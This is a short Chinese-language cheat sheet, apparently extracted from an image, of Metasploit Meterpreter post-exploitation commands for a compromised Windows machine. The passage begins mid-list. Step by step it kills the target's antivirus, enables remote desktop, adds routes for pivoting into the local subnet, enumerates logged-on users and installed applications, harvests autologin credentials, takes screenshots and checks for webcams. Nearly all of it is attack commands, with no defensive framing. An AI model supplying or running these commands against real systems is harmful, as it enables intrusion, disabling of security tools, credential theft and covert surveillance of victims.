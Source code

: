 ```
route
```

查看渗透成功的用户名，如果不是最高权限，则需要提权：

```
getuid
```

关闭目标机系统杀毒软件：

```
run post/windows/manage/killav
```

启动目标机的远程桌面协议：

```
run post/windows/manage/enable_rdp
```

查看目标机本地子网：

```
run post/windows/manage/autoroute
```

添加路由：

```
background
route add 192.168.172.0 255.255.255.0 1
route print
```

列举登录了目标机的用户：

```
run post/windows/gather/enum_logged_on_users
```

列举安装在目标机上的应用程序：

```
run post/windows/gather/enum_application
```

抓取自动登录的用户名密码：

```
run windows/gather/credentials/windows_autologin
```

如果抓不到，使用Espia抓取屏幕截图，保存到/root下：

```
load espia
screengrab #screengrab或screenshot
```

查看目标机是否由摄像头：

```
webcam_list
```
